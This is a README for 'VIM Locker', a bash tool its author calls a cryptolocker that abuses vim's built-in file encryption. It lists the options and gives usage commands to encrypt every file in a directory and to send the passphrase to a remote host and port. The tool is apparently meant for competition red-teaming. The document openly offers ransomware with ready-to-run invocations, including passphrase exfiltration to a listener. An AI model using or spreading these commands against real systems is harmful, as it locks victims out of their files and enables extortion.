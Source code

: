 # VIM Locker

Did you know vim can encrypt your files?... I didn't either! Once I found out, I knew I had weaponize it into a cryptolocker. So I did that.

TODO: 
* Test all options thoroughly.
* Test HOST option thorooghly.
* Probably spelling errors.
* Stuff.

## Options

```
  -H <IP>	Host ip to send encrpytion information to.
  -P <PORT>	Host port to send encrpytion information to.
  -e <PASS>	Set passphrase for file ( one is generated by default ).
  -l <FILE>	Log application actions to a file ( off by default ).
  -z		Use zip ( not great ) style encryption.
  -b		Use vim's blowfish ( good ) encryption.
  -B		Use vim's blowfish2 ( most goodiest )encryption.
  -n		Generate a new passphrase for each file.
  -v		Display version.
  -s		Silent mode.
  -h		Display this menu. 
```
## Usage

I've built this tool to be very easy to use. Hopefully.

### Typical

Typical useage to be able to cryptolock the files in a directory:

```
$ bash vim_locker.sh -d directory
```

### Report to Host

If you want to report back to a host the files/passphrase, it's pretty simple:

```
$ bash vim_locker.sh -H 192.168.1.2 -P 80 -d directory
```

### Custom Passphrase

If you would like to set a custom passphrase instead of having one generated for you.

```
$ bash vim_locker.sh -d directory -e reallystrongpassword 
```

### Help

Program should default to a help menu when no flags are specified or called with the `-h` option.

```
$ bash vim_locker.sh -h 
```

## Credits
Kent 'picat' Gruber

#### Special Thanks

Wanted to give a shotout to [zmallen](https://github.com/zmallen) for some inspriation from his [LoLLocker](https://github.com/zmallen/lollocker). See you at ISTS this year? ;)
